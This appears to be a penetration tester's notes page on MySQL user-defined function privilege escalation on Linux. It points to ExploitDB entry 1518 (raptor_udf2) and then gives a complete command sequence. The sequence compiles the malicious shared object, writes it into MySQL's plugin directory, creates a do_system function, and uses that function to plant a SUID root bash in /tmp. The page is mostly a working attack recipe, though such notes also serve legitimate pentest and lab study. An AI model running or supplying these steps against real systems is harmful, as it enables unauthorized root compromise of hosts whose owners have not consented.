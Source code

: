 -- -
### User-Defined Function PrivEsc
mysql is vulnerable if the service is running as root w/o a password and the version is `4.x` or `5.x`. 
##### Get Exploit Code
[ExploitDB](https://www.exploit-db.com/exploits/1518)
```bash
# or use searchsploit
# should be 1518.c
searchsploit mysql 4.x/5.0 
searchsploit -m 1518
```
##### Exploit
*Note: The instructions in the exploit may or may not work, when I did in practice I needed slightly different commands to get it to work so mileage may vary.*
[[Dark Arts/File Transfer/Linux|File Transfer]] C code to target, or compile on attack box, then file transfer binary to target
```bash
# compile object file
gcc -g -c raptor_udf2.c -fPIC

# compile object to Shared Object (Dynamic Library) file\
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

# log into mysql w/ or w/o password
mysql -u root
mysql -u root -p # will prompt for password
mysql -u root -p<password> 

# use mysql db
use mysql;

# create a table in mysql
create table foo(line blob);

# insert value into table that loads your malicious shared object file
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));

# dump loaded malicious shared object file into the required location, this may or may not be different. If in the next command you get an error, it will tell you where you need to put the malicious shared object file, so come back to this step if needed, you can redo it as many times as you want.
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

# create the function
# again, if you get an error, go back to the previous step.
create function do_system returns integer soname 'raptor_udf2.so';

# have it copy the bash binary and set it as executable and set it to have the SUID bit. 
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');

# exit mysql
exit

# then just run your new suid bash binary
/tmp/rootbash -p

# and you should have root
```